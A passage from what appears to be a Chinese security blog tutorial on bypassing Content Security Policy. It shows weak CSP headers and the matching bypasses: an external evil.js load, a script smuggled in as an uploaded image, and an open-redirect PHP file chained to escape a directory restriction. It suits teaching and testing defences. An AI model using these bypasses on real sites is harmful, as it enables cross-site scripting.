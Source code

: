 CSP对前端攻击的防御主要有两个：
1、限制js的执行。
2、限制对不可信域的请求。

接下来的多种Bypass手段也是围绕这两种的。

## 1

```
header("Content-Security-Policy: default-src 'self '; script-src * ");
```

天才才能写出来的CSP规则，可以加载任何域的js
```
<script src="http://lorexxar.cn/evil.js"></script>
```

随意开火

## 2

```
header("Content-Security-Policy: default-src 'self'; script-src 'self' ");
```

最普通最常见的CSP规则，只允许加载当前域的js。

站内总会有上传图片的地方，如果我们上传一个内容为js的图片，图片就在网站的当前域下了。

```test.jpg
alert(1);//
```

直接加载图片就可以了
```
<script src='upload/test.js'></script>
```

## 3
```
header(" Content-Security-Policy: default-src 'self '; script-src http://127.0.0.1/static/ ");
```

当你发现设置self并不安全的时候，可能会选择把静态文件的可信域限制到目录，看上去好像没什么问题了。

但是如果可信域内存在一个可控的重定向文件，那么CSP的目录限制就可以被绕过。

假设static目录下存在一个302文件
```
Static/302.php

<?php Header("location: ".$_GET['url'])?>
```

像刚才一样，上传一个test.jpg
然后通过302.php跳转到upload目录加载js就可以成功执行

```
<script src="static/302.php?url=upload/test.jpg">
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xht98xm2jwyjckb5bfdjm5xq/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xo1yr98en6xbcsxhdi3598mz/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qeh93twveyzmu5ke9nvkftj6/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dqprvm9xhl2e0zl1w4ssjjai/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2btf59qi5yvbhrgo80zda064/image.png
